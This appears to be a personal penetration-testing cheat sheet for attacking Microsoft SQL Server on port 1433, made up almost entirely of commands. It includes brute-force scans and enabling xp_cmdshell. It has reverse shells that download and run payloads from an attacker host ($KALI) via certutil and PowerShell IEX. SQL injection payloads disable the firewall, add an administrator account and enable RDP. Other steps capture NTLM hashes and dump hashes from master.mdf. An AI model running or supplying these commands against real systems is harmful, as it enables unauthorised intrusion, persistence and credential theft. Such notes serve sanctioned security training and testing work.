 #### Quick Enuemration
```bash - kali
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 $TARGET
```

```bash - kali
nmap -p 1433 --script ms-sql-brute --script-args mssql.domain=DOMAIN,userdb=customuser.txt,passdb=custompass.txt,ms-sql-brute.brute-windows-accounts $TARGET
```

#### Connect with mssql-shell.rb  - 404 page
```bash - kali
wget https://raw.githubusercontent.com/dr0pb3ar/mssql-shell/master/mssql-shell.rb
```

```bash - kali
sudo gem install tiny_tds colorize
```

```bash - kali
sudo apt install freetds-dev
```

```bash - kali
chmod +x mssql-shell.rb
```

```bash - kali
sudo ./mssql-shell.rb -u $USER -p $PASSWORD $TARGET
```

```bash - kali
select @@version;
```

```bash - kali
:xp_cmdshell whoami
```

If this errors, just follow [[Port 1433 - MSSQL ~#sp_cmdshell]] or [[Port 1433 - MSSQL ~#xp_cmdshell]] to enable the feature.

[[1._Reverse Shells (WIN)]]

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

[[4._File Transfers]]

```bash - kali
:xp_cmdshell certutil -urlcache -split -f http://$KALI/reverse.exe 
```

[[rlwrap]]

```bash - kali
:xp_cmdshell reverse.exe 
```

#### Connect with mssql_shell.py - BROKEN?
```bash - kali
wget https://raw.githubusercontent.com/Alamot/code-snippets/master/mssql/mssql_shell.py
```

Input Target IP, username and password.

```bash - kali
python mssql_shell.py
```

#### Connect with MSSQLClient 
```bash - kali
mssqlclient.py $HOSTNAME$/$USER:'$PASSWORD'@$TARGET -windows-auth
```

#### Connect with sqsh

```bash - kali
sqsh -S $TARGET:1433 -U sa
```

```bash - kali
RPSsql12345
```

#### sp_cmdshell

You may have to enter "go" after every command!

![[Pasted image 20220408112248.png]]

```SQL
sp_configure 'show advanced options', '1'
```

```SQL
RECONFIGURE
```

```SQL
sp_configure 'xp_cmdshell', '1'
```

```SQL
RECONFIGURE
```

```SQL
EXEC master..xp_cmdshell 'whoami'
```

[[1._Reverse Shells (WIN)#Invoke-Powershell ps1]]

[[rlwrap]]

```SQL
EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://$KALI/Invoke-PowerShellTcp.ps1") | powershell -noprofile'
```

#### xp_cmdshell
```SQL
enable_xp_cmdshell
```

```SQL
go
```

```SQL
xp_cmdshell 'date'
```

```SQL
 go
```

```SQL
xp_cmdshell whoami
```

```SQL
go
```

#### Powershell reverse shell
```python - kali
sudo python3 -m http.server 80
```

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

[[rlwrap]]

[[1._Reverse Shells (WIN)#Powershell reverse TCP]]

```SQL
xp_cmdshell "powershell IEX(New-Object Net.WebClient).DownloadString('http://$KALI:80/powershell_reverse_tcp.ps1') | powershell -noprofile -"
```

```SQL
go
```

Python:
```SQL
EXEC sp_execute_external_script @language = N'Python', @script = N'import os;os.system("whoami")'
```

[https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/](https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/)

#### xp_cmdshell RDP
```SQL
' UNION ALL SELECT 1,2--
```
  
```SQL
' UNION ALL SELECT @@version,2--
```

```SQL
' union select @@version,2; WAITFOR DELAY '0:0:5' ; --
```
   
```SQL
' union select @@version,2; EXEC sp_configure 'show advanced options', 1; WAITFOR DELAY '0:0:5' ; --
```

```SQL
' union select @@version,2; RECONFIGURE; --
```

```SQL
' union select @@version,2; EXEC sp_configure 'xp_cmdshell', 1; --
```

```SQL
' union select @@version,2; RECONFIGURE; --
```

```SQL
' union select @@version,2; exec master..xp_cmdshell 'ping localhost'; --
```

```SQL
' union select @@version,2; exec master..xp_cmdshell 'dir c:'; --
```

```SQL
' union select @@version,2; exec master..xp_cmdshell 'netsh advfirewall set allprofiles state off'; --
```

```SQL
' union select @@version,2; exec master..xp_cmdshell 'net user foobar Password123 /add'; --
```

```SQL
' union select @@version,2; exec master..xp_cmdshell 'net localgroup Administrators foobar /add'; --
```

```bash
rdesktop -a 16 -z -u foobar -p Password123 $TARGET
```

RDP was already enabled in the above example. If disabled, we can try enabling RDP with:

```SQL
' union select user,null; exec master..xp_cmdshell ''reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f''; --
```

#### Enumeration
```SQL
select @@version;
```

```SQL
SELECT * FROM fn_my_permissions(NULL, 'SERVER');
```

```SQL
SELECT name FROM master.sys.databases
```

```SQL
use volume
```

#### Steal NTLM hash
```bash - kali
mkdir share
```

```bash - kali
smbserver.py -smb2support share share/
```

```bash - kali
exec master..xp_dirtree '\\$KALI\share\',1,1 
```

`mssql-svc::$HOSTNAME:4141414141414141:fcf5ce3bc7c6f2d4cc186363f57a4afb:0101000000000000805cb28d9e1fd801cfdf67806cdb917000000000010010006e006b006f004f006c0070006b0049000200100061006800630076007a00630045005900030010006e006b006f004f006c0070006b0049000400100061006800630076007a0063004500590007000800805cb28d9e1fd80106000400020000000800300030000000000000000000000000300000bdca754ed8e5710ee15f0f7d0238f5927e0ad033b727c638d8831685eafab2d20a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e003900000000000000000000000000`

![[TechLexicon/Penetration Testing/Reference/7._Tools/Hashcat#NetNTLMv2]]

#### Getting hashes with tftp

Using [[Abbreviated dir]]'s, we put together the path
`C:\PROGRA~1\MICROS~1\MSSQL1~1.SQL\MSSQL\DATA\master.mdf`

However, we cannot read from there, so we aim to the backup folder:
`"C:\PROGRA~1\MICROS~1\MSSQL1~1.SQL\MSSQL\Backup\master.mdf" $TARGET`

[[Port 69 - TFTP#tftp py]]

```bash - kali
git clone https://github.com/xpn/Powershell-PostExploitation && cd Powershell-PostExploitation/ && cd Invoke-MDFHashes
```

Load PowerShell in Kali:
```bash - kali
pwsh
```

```PowerShell - kali
Import-Module ./Get-MDFHashes.ps1
```

```PowerShell - kali
Add-Type -Path /home/kali/Desktop/$TARGET/Powershell-PostExploitation/Invoke-MDFHashes/OrcaMDF.Framework.dll
```

```PowerShell - kali
Add-Type -Path /home/kali/Desktop/$TARGET/Powershell-PostExploitation/Invoke-MDFHashes/OrcaMDF.RawCore.dll  
```

* Be sure to widen you terminal to see the whole hash!

```PowerShell - kali
Get-MDFHashes -mdf /home/kali/Desktop/$TARGET/master.mdf
```

